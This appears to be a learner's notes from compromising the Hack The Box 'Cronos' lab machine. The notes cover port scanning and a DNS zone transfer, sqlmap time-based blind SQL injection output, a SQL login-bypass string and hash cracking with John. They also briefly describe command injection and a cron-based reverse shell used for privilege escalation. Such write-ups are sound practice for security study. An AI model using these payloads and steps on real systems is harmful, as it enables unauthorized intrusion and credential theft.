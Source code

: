 # Enumerate
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 08:00 EDT
Nmap scan report for 10.10.10.13
Host is up (0.026s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds

* Exploits for those:
22 - probably not, but started hydra anyway with www-data user
53 - maybe privesc
	[X] the buffer overflow c file (19111/2) didn't seem to work. Definitely wrong kernel version. 
80 - doesn't look like it

* Web pages
web page is the default ubuntu page
dirbuster 

* Scan more
every port found nothing new

* DNS Recon
dnsrecon tool doesn't seem to get a response from server, reset? 
I can use nslookup to that ns and get responses
Seems like the dnsrecon should be getting responses, and I can't reset the server because it says it's under maintenance. That's probably the right way though. Try later. 
Host command worked for zone transfer.
'''
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ host -l 10.10.10.13 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 
13.10.10.10.in-addr.arpa domain name pointer ns1.cronos.htb.
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ host -l cronos.htb 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 
cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
'''


# Access
If I set my dns to use 10.10.10.13 I can then go to admin.cronos.htb and get a different web page. No idea if this is what the goal is but given that it's an http page, probably.   
Intercept with burp and run sqlmap   
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ sqlmap -r burp_intercept.txt --dbms=mysql --dump
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 7121 FROM (SELECT(SLEEP(5)))aNcV) AND 'bpvH'='bpvH&password=a
---
```
Not user how the time based blind works but doesn't look like something I can do without the tool?   
That took forever but quickly showed that there's admin db with users table with username and password columns.   
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ sqlmap -r burp_intercept.txt --dbms=mysql -D admin -T users -C username,password
```
For some reason this didn't give any results. Back to --dump I guess. 
Eventually dumps PW
```
+------+----------+----------------------------------+
| id   | username | password                         |
+------+----------+----------------------------------+
| 1    | admin    | $ADMINHASH                       |
+------+----------+----------------------------------+
```
Crack with John
```
/sbin/john -w /usr/share/wordlists/rockyou.txt ../hashes.txt --format=Raw-MD5
```

Got a hash that didn't work on the admin page or on ssh...    
	tried all combos of root/admin/www-data with that reverse hash and the hash itself   
lol wtf I looked up the md5 reverse and it totally wasn't right what John told me. John.pot file shows that was a different hash, no idea what happened.    
No idea what to do with this now.    
dirb on admin page     
* empty config.php      
* nothing else useful    
GDI if I go to www.cronos.htb, there's a totally different page to view.  
dirb on www page  
* /js/ page is index with app.js  
   
That web page is running laravel, any exploits?  
* none that worked. Tried the msf one and the python ones.   

Well I'm confused. Time to look at a writeup.  
WOW, apparently I can just sqli directly through that admin login page.  
* admin' or '1'='1'# in both fields
* found the payloadallthethingsrepo. Ading to my tools folder. 

Have the net tool page.  
Vulnerable to command injection. Get a shell.  
Read user Noulis txt file.  

# Escalate
linpeas  
* db password line?  define('DB_PASSWORD', '<>');
* also has lines about localhost 3306 homestead database  
```
/var/www/laravel/.env:APP_NAME=Laravel                                                                                                                                                                           
/var/www/laravel/.env:DB_CONNECTION=mysql
/var/www/laravel/.env:DB_DATABASE=homestead
/var/www/laravel/.env:DB_HOST=127.0.0.1
/var/www/laravel/.env:DB_PORT=3306
/var/www/laravel/.env:DB_USERNAME=homestead
```  
Can't use that for anything I guess. Wouldn't let me connect locally.  
See that cat /etc/crontab shows an application being run.  
Add a reverse shell to it and replace that file and get shell.  


# Tags
* sqlmap
* dns
* zone transfer
* sql injection, sqli


# Lessons
Try some sqli you moron.  
Even if I solve something, it's probably worth reading the writeups to see if other peoples TTPs that I might want to be aware of.  
